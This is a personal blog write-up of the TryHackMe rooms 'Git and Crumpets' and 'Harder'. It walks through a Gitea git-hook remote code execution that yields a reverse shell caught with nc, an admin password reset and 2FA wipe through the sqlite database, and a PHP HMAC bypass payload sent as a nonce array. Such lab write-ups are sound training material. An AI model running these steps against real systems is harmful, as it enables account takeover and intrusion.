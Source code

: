 ```yaml
---
layout: post
title:  "THM: Git and Crumpets (and Harder, a bit)"
date:   2021-07-04 19:00:00 +1000
category: hacking
---
```


## THM: Git and Crumpets
This is [Git and Crumpets](https://tryhackme.com/room/gitandcrumpets) from THM. It's Medium rated. For the avoidance of any doubt: I generally don't publicise my writeups, and this is no exception.

## Ports
Well; hard to say. SSH and HTTP certainly; *rustscan* doesn't like it and *nmap* isn't super keen either - the box has 'countermeasures'. Let's assume those are the only open ports.

## HTTP
The webpage redirects to Rick Astley on youtube, because of course it does. But we can see this in the page source:

{% highlight html %}
        Hey guys,
           I set up the dev repos at git.git-and-crumpets.thm, but I haven't gotten around to setting up the DNS yet. 
           In the meantime, here's a fun video I found!
        Hydra
{% endhighlight %}

So we edit our /etc/hosts and go take a look.

Once we arrive at *git.git-and-crumpets.thm*, it's [Gitea](https://gitea.io/en-us/): "A painless self-hosted Git service". The exploit is explained [here](https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/). It's arguably not really an exploit, since if you explicitly allow your users to execute code, then yeah, they can execute code.

Anyway.

We can sign up, and then 'explore' the repos using the web interface. At */scones/cant-touch-this/commits/branch/master* we find this:

>I kept the password in my avatar to be more secure.  

And we can download the avatar and run exiftool on it:

>Description                     : My 'Password' should be easy enough to guess  

So yes, it's scones:password. We log out as our registered user and then back in as scones, and then we can create a repo and add a hook as described in the linked article. We need to make a commit to the repo from our attack machine. I don't follow the article exactly; instead I clone the repo, add a file, commit and push back to remote, this is enough:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/crumpets]
└─# nc -nvlp 1234                                                                                                               
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.38.158] 39250
bash: cannot set terminal process group (853): Inappropriate ioctl for device                                      
bash: no job control in this shell                                                                                 
[git@git-and-crumpets shellington.git]$ id
id
uid=993(git) gid=990(git) groups=990(git) context=system_u:system_r:unconfined_service_t:s0
[git@git-and-crumpets shellington.git]$
{% endhighlight %}

## Privesc
The privesc is reading the root account SSH key from a repo on Gitea. Apparently there are multiple ways to do it; what I did was:

1. Find out who the admin user is
2. Change his password (amazing we can do this)
3. Disable 2FA on his account by deleting entries from the Gitea sqlite two_factor table
4. Look through the web interface as the admin and find the prize
5. SSH in and done.

Here's what some of that looked like. Learn who is admin:

{% highlight shell %}
[git@git-and-crumpets ~]$ gitea admin user list --config /etc/gitea/app.ini
2021/07/03 05:54:56 ...dules/setting/git.go:101:newGit() [I] Git Version: 2.27.0, Wire Protocol Version 2 Enabled
ID   Username Email                  IsActive IsAdmin
1    hydra    hydragyrum@example.com true     true
2    root     root@example.com       true     false
3    scones   withcream@example.com  true     false
4    test     test@test.thm          true     false
5    user1    user@user.com          true     false
{% endhighlight %}

Change the password:

{% highlight shell %}
[git@git-and-crumpets ~]$ gitea admin user change-password --username hydra --password password --config /etc/gitea/app.ini
2021/07/03 05:56:11 ...dules/setting/git.go:101:newGit() [I] Git Version: 2.27.0, Wire Protocol Version 2 Enabled
hydra's password has been successfully updated!
{% endhighlight %}

Disable 2FA:

{% highlight shell %}
[git@git-and-crumpets data]$ ls -lash
total 1.3M
   0 drwxr-x---. 10 git git  159 Jul  3 06:26 .
   0 drwxr-xr-x.  5 git git   57 Apr 15 13:12 ..
   0 drwxr-xr-x.  2 git git    6 Apr 14 09:56 attachments
   0 drwxr-xr-x.  3 git git  217 Jul  3 05:43 avatars
1.3M -rw-r--r--.  1 git git 1.3M Jul  3 06:26 gitea.db
   0 drwxr-xr-x.  5 git git   45 Apr 15 15:50 gitea-repositories
   0 drwxr-xr-x.  4 git git   46 Apr 14 09:56 indexers
   0 drwxr-xr-x.  2 git git    6 Apr 14 09:56 lfs
   0 drwxr-xr-x.  7 git git  114 Apr 14 09:56 queues
   0 drwxr-xr-x.  2 git git    6 Apr 14 09:56 repo-avatars
   0 drwx------. 16 git git  132 Jul  3 05:44 sessions
[git@git-and-crumpets data]$ sqlite3 gitea.db
SQLite version 3.26.0 2018-12-01 12:34:55
Enter ".help" for usage hints.
sqlite> .tables
access                     org_user                 
access_token               project                  
action                     project_board            
# etc etc            
lfs_meta_object            tracked_time             
login_source               two_factor               
milestone                  u2f_registration         
mirror                     upload                   
notice                     user                     
notification               user_open_id             
oauth2_application         user_redirect            
oauth2_authorization_code  version                  
oauth2_grant               watch                    
oauth2_session             webhook  
sqlite> delete from two_factor;
sqlite> .quit
{% endhighlight %}

The key is at:

/root/backup/commit/0b23539d97978fc83b763ef8a4b3882d16e71d32

And the password is there too:

>href="/root/backup/src/commit/0b23539d97978fc83b763ef8a4b3882d16e71d32/.ssh/Sup3rS3cur3"

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/crumpets]
└─# ssh -i id_rsa root@10.10.112.171         
Enter passphrase for key 'id_rsa': 
Last login: Fri Jul  2 23:11:30 2021
[root@git-and-crumpets ~]#
{% endhighlight %}

And that was about that. I also did *harder*, which I tried before and couldn't get through. Even this time I had to check a write-up. I found the subdomains and dumped the git repo, but was stuck at the exploit. It's explained here:

https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up

The relevant code is here:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/harder/gitstuff]
└─# cat hmac.php 
<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
{% endhighlight %}

But even though I can read PHP I'm not proficient enough with it to spot the bug. This line:

```
$secret = hash_hmac('sha256', $_GET['n'], $secret);
```

Is basically identical to the example:

```
$secret = hash_hmac('sha256', $_POST['nonce'], $secret);
```

From the linked article:

{% highlight html %}
What happens when we supply an array for the nonce value? Well, hash_hmac will return false. Then, the new HMAC will be generated in the form of HMAC = hash_hmac(SHA256, $_POST['host'], false)! An attacker can now generate a valid HMAC for any message. For example:

hash_hmac('sha256', "securify.nl", false) = c8ef9458af67da9c9086078ad3acc8ae71713af4e27d35fd8d02d0078f7ca3f5

The URL for exploiting the vulnerability then looks like:

?nonce[]=&hostname=securify.nl&hmac=c8ef9458af67da9c9086078ad3acc8ae71713af4e27d35fd8d02d0078f7ca3f5
{% endhighlight %}

The article mentions: 

>The code stems from a vulnerability that was encountered in the wild.

The THM room says:

>The machine is completely inspired by real world pentest findings. Perhaps you will consider them very challenging but without any rabbit holes. Once you have a shell it is very important to know which underlying linux distribution is used and where certain configurations are located.

I'm sure that's true for the foothold but the privesc felt contrived to me; not sure if that's fair or not. I certainly haven't seen one of these with Alpine as the host OS before though.
